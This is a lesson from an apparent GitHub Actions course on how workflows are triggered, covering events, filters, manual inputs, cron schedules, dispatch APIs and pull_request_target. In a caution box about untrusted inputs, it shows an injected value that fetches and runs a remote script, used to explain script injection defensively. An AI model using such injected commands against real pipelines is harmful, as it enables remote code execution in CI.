

<p align="center">
  <b>Lesson 13 of 14</b> &nbsp;·&nbsp; ⏱️ 26 min &nbsp;·&nbsp; 🛠️ Hands-on
</p>

# 🚦 Triggering Workflows in Detail

So far almost every workflow in this course started with `on: push`. That works, but it's like a doorbell that rings on every footstep: a typo fix in the README starts the same 10-minute pipeline as a change to the payment code. This lesson is about the `on:` block. It decides **what** starts a run, **when**, **on which commit**, and **with which values**.

You'll learn the four ways a run can start, how to make triggers precise, and the rules that surprise people, such as "my Run workflow button is missing" and "my scheduled job runs 20 minutes late".

## 🚪 Four doors into a workflow

<p align="center">
  
</p>

GitHub's docs list four sources of triggers:

| Door | What starts it | Typical use |
|---|---|---|
| 🔔 **Repository events** | Something happens in the repo: a push, a pull request, an issue, a release | CI on every push, labelling issues, publishing on release |
| ⏰ **Schedules** | A time, written as cron | Nightly builds, weekly dependency checks, cleaning stale issues |
| 🖱️ **Manual runs** | A person clicks **Run workflow**, or runs `gh workflow run` | Deploys, one-off maintenance, anything that needs a human decision |
| 🔗 **From elsewhere** | An outside system calls the API, or another workflow finishes or calls this one | A CMS publishing content, chaining workflows, reusable pipelines |

### 🔍 What GitHub does when an event fires

From the docs, in order:

1. **The event happens**, and it carries a **commit SHA** and a **Git ref**. The runner gets them as `GITHUB_SHA` and `GITHUB_REF`.
2. **GitHub reads `.github/workflows/`** at that SHA or ref. It uses the files **as they were at that commit**, not as they are on `main` now.
3. **Each workflow whose `on:` matches** the event, its activity type and its filters starts its own run.

> [!IMPORTANT]
> Step 2 explains a lot of confusing behaviour. Push a fix to a workflow on a feature branch and the next push to *that branch* uses the new file, while `main` keeps using the old one. And a pull request runs the workflow file **from the pull request**, so a contributor's change to the workflow is tested too.

> [!NOTE]
> Some events only look at the **default branch**. `workflow_dispatch`, `schedule`, `repository_dispatch`, `workflow_run` and events like `issues` and `release` use the workflow file on the default branch (`main`). A trigger you add on a feature branch does nothing for these until it is merged.

## 🔔 Repository events and activity types

Most of the 35 or so events have **activity types**: the different things that can happen to the same object. An issue can be `opened`, `edited`, `labeled`, `closed` and more. Without `types:` you get **every** activity type, which is rarely what you want.

```yaml
on:
  issues:
    types: [opened, labeled]      # only these two
  release:
    types: [published]            # not created, edited, deleted...
  pull_request:                   # no types: means the default set below
```

> [!WARNING]
> `pull_request` is the exception that catches everyone. With no `types:`, it does **not** run for every activity. It runs only for **`opened`, `synchronize` and `reopened`**. `synchronize` means "new commits were pushed to the PR". If you want a workflow to react to labels or to a PR being closed, list those types yourself.

### 🎛️ Three ways to write `on:`

```yaml
on: push                             # one event, every activity type

on: [push, pull_request]             # several events, defaults for each

on:                                  # a map: each event can have its own settings
  push:
    branches: [main]
  pull_request:
    types: [opened, synchronize, reopened, labeled]
```

If **any** listed event happens, the workflow runs. Two events in the same instant start **two** runs. Use `github.event_name` inside the job to tell them apart.

### 🧾 What a few common events give you

| Event | `GITHUB_SHA` is... | `GITHUB_REF` is... |
|---|---|---|
| `push` | the tip commit that was pushed | the branch or tag pushed to, e.g. `refs/heads/main` |
| `pull_request` | a **test merge commit** of the PR into its target | `refs/pull/<number>/merge` |
| `pull_request_target` | the last commit on the **default branch** | the default branch |
| `workflow_dispatch` | the last commit on the chosen branch or tag | the branch or tag you picked |
| `schedule` | the last commit on the default branch | the default branch |

> [!TIP]
> For a `pull_request` run, the code you check out is **what the repo would look like after merging**, not the PR branch alone. Need the PR's own latest commit? It's `github.event.pull_request.head.sha`. Also from the docs: if a PR has a **merge conflict**, `pull_request` workflows don't run at all until it's fixed.

## 🎯 Filters: branches, tags and paths

Activity types say *what happened*. Filters say *where*. They are how you stop the README typo from starting a full build.

```yaml
on:
  push:
    branches:
      - main
      - 'release/**'          # release/1.0, release/2024/q1 ...
    tags:
      - 'v*'                  # v1, v1.2.3
    paths:
      - 'src/**'
      - 'package.json'
      - '!src/**/*.md'        # ...but not Markdown inside src
  pull_request:
    branches: [main]          # the PR's TARGET branch, not its source
```

| Filter | Runs when... | Opposite |
|---|---|---|
| `branches:` | the branch matches a pattern | `branches-ignore:` |
| `tags:` | the tag matches a pattern | `tags-ignore:` |
| `paths:` | **at least one** changed file matches | `paths-ignore:` |

**The rules that bite:**

- **One or the other.** You can't use `branches` and `branches-ignore` for the same event (or `paths` with `paths-ignore`). To exclude inside an include list, use `!` as above. Order matters: a later pattern overrides an earlier one.
- **Filters combine with AND.** With both `branches:` and `paths:`, a push must match **both**.
- **`branches` alone means "not on tags".** If you set only `branches:`, tag pushes don't run the workflow, and the reverse is also true. Add both if you want both.
- **Patterns are globs.** `*` matches anything except `/`, and `**` matches anything including `/`. Quote patterns that start with `*` or `!`, because YAML treats those characters specially.
- **Diffs over 300 files** may not be fully checked by `paths:`. If no match is found in the first 300 files, the workflow doesn't run.
- **Tag pushes in bulk** don't create events. The docs say tag events aren't created when more than **three tags** are pushed at once.

> [!TIP]
> Every pushed commit can opt out on its own. Put **`[skip ci]`**, `[ci skip]`, `[no ci]`, `[skip actions]` or `[actions skip]` in the commit message, and `push` and `pull_request` workflows won't run for it.

## 🖱️ Manual runs with `workflow_dispatch`

This is the trigger in the screenshot from GitHub's docs. It adds a **Run workflow** button to the workflow's page in the **Actions** tab.

```yaml
on: workflow_dispatch
```

| Webhook event payload | Activity types | `GITHUB_SHA` | `GITHUB_REF` |
|---|---|---|---|
| `workflow_dispatch` | Not applicable | Last commit on the `GITHUB_REF` branch or tag | Branch or tag that received the dispatch |

> [!IMPORTANT]
> **"This event will only trigger a workflow run if the workflow file is on the default branch."** This is the number-one reason the Run workflow button is missing. Merge the workflow to `main` first. After that, the form lets you pick **any** branch or tag to run on, and that branch's version of the file is used.

### 🔘 Providing inputs

A button that always does the same thing is useful. A button that asks questions first is better. Inputs turn your workflow into a small form:

<p align="center">
  
</p>

```yaml
on:
  workflow_dispatch:
    inputs:
      environment:
        description: Where to deploy
        type: choice
        options: [staging, production]
        default: staging
      version:
        description: Version to deploy, for example 1.4.2
        type: string
        required: true
      dry-run:
        description: Only print what would happen
        type: boolean
        default: true
      replicas:
        type: number
        default: 2

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: ${{ inputs.environment }}
    steps:
      - if: ${{ !inputs.dry-run }}
        env:
          VERSION: ${{ inputs.version }}
        run: ./deploy.sh "$VERSION"
```

| `type:` | Form control | Notes |
|---|---|---|
| `string` | text box | the default type |
| `choice` | dropdown | needs `options:`; arrives as a string |
| `boolean` | checkbox | a real boolean in `inputs` |
| `number` | number box | |
| `environment` | environment picker | lists the repo's [environments](https://docs.github.com/en/actions/how-tos/deploy/configure-and-manage-deployments/manage-environments) |

**Limits from the docs:** at most **25** inputs, and **65,535** characters for the whole inputs payload.

> [!WARNING]
> **Use `inputs.x`, not `github.event.inputs.x`.** Both exist, but the `inputs` context keeps booleans as booleans. `github.event.inputs` turns them into the **strings** `'true'` and `'false'`, and any non-empty string is truthy, so `if: github.event.inputs.dry-run` is **always true**. The `inputs` context also works for `workflow_call`, so the same code serves both.

> [!CAUTION]
> Inputs are typed by a person, so treat them as untrusted. Pass them through `env:` and quote them, as in the example, instead of writing `${{ inputs.version }}` straight into a `run:` script. Otherwise a "version" like `1.0; curl evil.sh | sh` becomes part of your script.

### 🚀 Three ways to press the button

| Where | How |
|---|---|
| **Browser** | Actions → pick the workflow → **Run workflow** → choose the branch, fill the form |
| **GitHub CLI** | `gh workflow run deploy.yml --ref main -f environment=production -f version=1.4.2` |
| **REST API** | `POST /repos/{owner}/{repo}/actions/workflows/deploy.yml/dispatches` with `{"ref":"main","inputs":{...}}` |

The CLI and API make `workflow_dispatch` the easiest way to start a GitHub workflow from a script, chat bot or another CI system.

## ⏰ Schedules with cron

```yaml
on:
  schedule:
    - cron: '30 5 * * 1-5'     # 05:30 UTC, Monday to Friday
    - cron: '0 0 1 * *'        # midnight UTC on the 1st of every month
```

A cron line has five fields:

```text
┌───────────── minute        (0 - 59)
│ ┌─────────── hour          (0 - 23)
│ │ ┌───────── day of month  (1 - 31)
│ │ │ ┌─────── month         (1 - 12 or JAN - DEC)
│ │ │ │ ┌───── day of week   (0 - 6 or SUN - SAT)
│ │ │ │ │
* * * * *
```

| Operator | Meaning | Example |
|---|---|---|
| `*` | any value | `* * * * *` every minute (but see the limit below) |
| `,` | a list | `0 9,17 * * *` at 09:00 and 17:00 |
| `-` | a range | `0 9 * * 1-5` weekdays at 09:00 |
| `/` | a step | `*/15 * * * *` every 15 minutes |

[crontab.guru](https://crontab.guru) translates a cron line into English, and it's worth bookmarking.

**What the docs say about schedules:**

- ⏱️ **Every 5 minutes at most.** Shorter intervals aren't allowed.
- 🌍 **UTC by default.** `0 9 * * *` is 09:00 in London in winter but 10:00 in summer. The docs also describe an optional IANA `timezone:` value.
- 🐢 **Runs can start late.** The start of every hour is the busiest time, and at high load scheduled runs can be delayed or **dropped**. Pick an odd minute like `17` instead of `0`.
- 🌳 **Default branch only.** The schedule runs the workflow file from the latest commit on `main`.
- 💤 **Public repos go to sleep.** If a public repository has no activity for **60 days**, its scheduled workflows are disabled until someone turns them back on.
- 🚫 **No shortcuts.** `@daily` and `@hourly` aren't supported. Write the five fields.

Inside the job, `github.event.schedule` holds the cron line that fired, which helps when one workflow has several schedules.

## 🔗 Triggers from outside and from other workflows

### 🌐 `repository_dispatch`: an outside system knocks

Any system with a token can start a workflow through the API: a CMS, a monitoring tool, a script on your laptop.

```yaml
on:
  repository_dispatch:
    types: [deploy-request, cache-purge]
```

```bash
gh api repos/OWNER/REPO/dispatches \
  -f event_type=deploy-request \
  -F 'client_payload[version]=1.4.2'
```

Inside the job, `github.event.action` is the `event_type` and `github.event.client_payload` holds your data. Limits: `event_type` is at most **100 characters**, `client_payload` has at most **10** top-level properties and **65,535** characters.

> [!TIP]
> `workflow_dispatch` or `repository_dispatch`? Use `workflow_dispatch` to start **one specific** workflow with **typed** inputs and a button. Use `repository_dispatch` to announce an **event**, so that any number of workflows listening for that `type` can react with a free-form payload.

### ⛓️ `workflow_run`: after another workflow

```yaml
on:
  workflow_run:
    workflows: [CI]               # the other workflow's name:
    types: [completed]
    branches: [main]              # the branch the CI run was on

jobs:
  deploy:
    if: ${{ github.event.workflow_run.conclusion == 'success' }}
    runs-on: ubuntu-latest
    steps:
      - run: echo "CI passed on ${{ github.event.workflow_run.head_branch }}"
```

- `completed` fires **whatever the result**, including failures. Always check `conclusion`.
- You can chain at most **three levels** of `workflow_run`.
- The triggered workflow runs with the **default branch's** file and has **access to secrets and a write token**, even if the run that triggered it came from a fork and had neither. So never run code from that earlier run here without checking it.

> [!NOTE]
> Within one workflow, use `needs:` (Lesson 9) to order jobs. Use `workflow_run` only when the pieces must be **separate workflows**, for example when the second one needs permissions the first shouldn't have.

### ♻️ `workflow_call`: a workflow other workflows can use

```yaml
on:
  workflow_call:
    inputs:
      node-version:
        type: string
        default: '22'
```

This makes the file a **reusable workflow**: another workflow calls it like a job with `uses: ./.github/workflows/build.yml`. The called workflow receives the caller's event, `GITHUB_SHA` and `GITHUB_REF`. Reusable workflows get a chapter of their own later.

## 🔁 The loop guard: `GITHUB_TOKEN` doesn't start new runs

Picture a workflow that runs on `push` and pushes a formatting fix. If that push started the workflow again, it would loop forever. GitHub prevents this:

> **With the exception of `workflow_dispatch` and `repository_dispatch`, events triggered by the `GITHUB_TOKEN` do not create new workflow runs.**

| A workflow using `GITHUB_TOKEN`... | Starts a new run? |
|---|---|
| pushes a commit or tag | ❌ no |
| opens an issue or creates a release | ❌ no |
| calls `gh workflow run` (`workflow_dispatch`) | ✅ yes |
| calls the dispatches API (`repository_dispatch`) | ✅ yes |

Need a push from a workflow to trigger CI on purpose? Use a **GitHub App token** or a personal access token instead. Those events do create runs, so take care not to build a loop yourself.

## ⚖️ `pull_request` vs `pull_request_target`

These look alike but run in very different security contexts.

| | `pull_request` | `pull_request_target` |
|---|---|---|
| Workflow file and code come from | the PR's merge commit | the **base repo's default branch** |
| Secrets for PRs from forks | ❌ none (read-only `GITHUB_TOKEN`) | ✅ **yes**, plus a write token |
| Runs if the PR has a merge conflict | ❌ no | ✅ yes |
| Good for | building and testing the PR's code | labelling, commenting, triaging |

> [!CAUTION]
> Never check out and run a fork's code inside `pull_request_target`. That would give a stranger's code your secrets and a write token. GitHub's docs warn about this directly: it can lead to cache poisoning and to the PR gaining secrets or write access it shouldn't have. Use `pull_request` to test code, and `pull_request_target` only to act on the PR's metadata.

## 🧭 Which trigger do I need?



Real workflows often combine several, like the companion workflow: `push` for changes, `schedule` as a safety net, and `workflow_dispatch` so you can always run it by hand.

## 🪤 Common mistakes

| Symptom | Cause | Fix |
|---|---|---|
| No **Run workflow** button | the workflow file isn't on the default branch | merge it to `main` first |
| Scheduled run is late or missing | top-of-the-hour load, or the repo was inactive for 60 days | use an odd minute; re-enable in the Actions tab |
| Schedule fires at the "wrong" hour | cron is UTC | convert, or set a `timezone:` |
| PR workflow ignores labels or closing | `pull_request` only defaults to `opened`, `synchronize`, `reopened` | add `types:` |
| Tag pushes stopped running CI | only `branches:` is set | add `tags:` too |
| `if: github.event.inputs.flag` is always true | the value is the string `'false'` | use `inputs.flag` |
| A bot's push doesn't start CI | the `GITHUB_TOKEN` loop guard | use a GitHub App token |
| Workflow edits on a branch don't affect `schedule` | schedule reads `main` | merge first |

## 🛠️ Try it yourself

The companion workflow [`04-triggers.yml`](../.github/workflows/04-triggers.yml) listens on all four doors and prints what started it.

1. **Push door.** Change a comment in `04-triggers.yml` and push to `main`. Then change any other file. Only the first push starts a run, because of the `paths:` filter.
2. **Manual door.** Go to **Actions → 04 - Triggers → Run workflow**. Pick `production`, type a version, untick **dry-run** and run it. In the log, the dry-run step is **skipped** because `inputs.dry-run` is a real `false`.
3. **From the CLI.** `gh workflow run 04-triggers.yml -f environment=staging -f version=2.0.0`
4. **Outside door.** `gh api repos/OWNER/REPO/dispatches -f event_type=deploy-request -F 'client_payload[from]=laptop'`, then read the payload in the log.
5. **Clock door.** Wait until Monday, or change the cron line to a time a few minutes from now in UTC (remember the 5-minute minimum, and that it may run late).

## ✅ Checkpoint

<details>
<summary><b>You added <code>workflow_dispatch</code> on a feature branch, but there's no Run workflow button. Why?</b></summary>

<br>

The button only appears when the workflow file is on the **default branch**. Merge it to `main` first. After that you can choose the feature branch in the form.

</details>

<details>
<summary><b>Your PR workflow should re-run when someone adds a <code>ready-for-review</code> label. Nothing happens. What's missing?</b></summary>

<br>

`pull_request` with no `types:` only runs for `opened`, `synchronize` and `reopened`. Add `types: [opened, synchronize, reopened, labeled]`.

</details>

<details>
<summary><b><code>if: github.event.inputs.dry-run</code> runs even when the box is unticked. Why?</b></summary>

<br>

`github.event.inputs` gives the **string** `'false'`, and a non-empty string is truthy. Use `inputs.dry-run`, which is a real boolean.

</details>

<details>
<summary><b>A workflow pushes a version bump with <code>GITHUB_TOKEN</code>. Will CI run on that commit?</b></summary>

<br>

No. Events caused by `GITHUB_TOKEN` don't start new runs, except `workflow_dispatch` and `repository_dispatch`. This prevents infinite loops. Use a GitHub App token if you really want CI to run.

</details>

<details>
<summary><b>With both <code>branches: [main]</code> and <code>paths: ['src/**']</code>, does a push to <code>main</code> that only changes <code>README.md</code> run the workflow?</b></summary>

<br>

No. Filters combine with AND. The branch matches but no changed file matches `src/**`, so the workflow doesn't run.

</details>

<details>
<summary><b>What does <code>17 6 * * 1</code> mean, and why 17?</b></summary>

<br>

06:17 UTC every Monday. Runs at the start of an hour are the most likely to be delayed or dropped, so an odd minute is more reliable.

</details>

## 🎯 What you learned

- A run starts through one of **four doors**: repository events, schedules, manual runs, or other systems and workflows
- The run uses the workflow file **at the event's commit**, and several events only look at the **default branch**
- **`types:`** picks activity types; **`pull_request`** defaults to `opened`, `synchronize`, `reopened`
- **`branches`, `tags`, `paths`** filters combine with AND; use `!` to exclude inside a list
- **`workflow_dispatch`** gives a Run workflow button and up to 25 typed inputs. Read them with **`inputs`**
- **`schedule`** is cron in UTC, at most every 5 minutes, may run late, and sleeps after 60 idle days in public repos
- **`repository_dispatch`**, **`workflow_run`** and **`workflow_call`** connect outside systems and other workflows
- **`GITHUB_TOKEN`** events don't start new runs, except the two dispatch events

---

<p align="center">
  <a href="12-working-with-repository-secrets.md">⬅️ Secrets</a>
  &nbsp;&nbsp;·&nbsp;&nbsp;
  <a href="index.md">📚 Chapter 4</a>
  &nbsp;&nbsp;·&nbsp;&nbsp;
  <a href="14-cheat-sheet-and-quiz.md"><b>Next: Cheat Sheet & Quiz ➡️</b></a>
</p>
